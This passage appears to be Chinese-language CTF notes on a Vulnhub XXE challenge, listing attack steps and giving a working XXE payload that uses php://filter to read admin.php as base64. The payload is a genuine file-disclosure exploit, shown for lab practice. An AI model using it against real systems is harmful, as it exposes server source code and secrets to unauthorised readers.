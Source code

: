 

![](image39/QQ截图20220330193910.png)



### CTF-Vulnhub-XXE 安全真题复现-检测,利用,拓展,实战

扫描 IP 及端口->扫描探针目录->抓包探针 xxe 安全->利用 xxe 读取源码->flag 指向文件->base32 64 解
密->php 运行->flag



```
<?xml version="1.0" ?>
<!DOCTYPE r [
<!ELEMENT r ANY >
<!ENTITY sp SYSTEM "php://filter/read=convert.base64-encode/resource=admin.php">
]>
<root><name>&sp;</name><password>hj</password></root>
```

#### 目标站点 

（不知道账号密码  ）
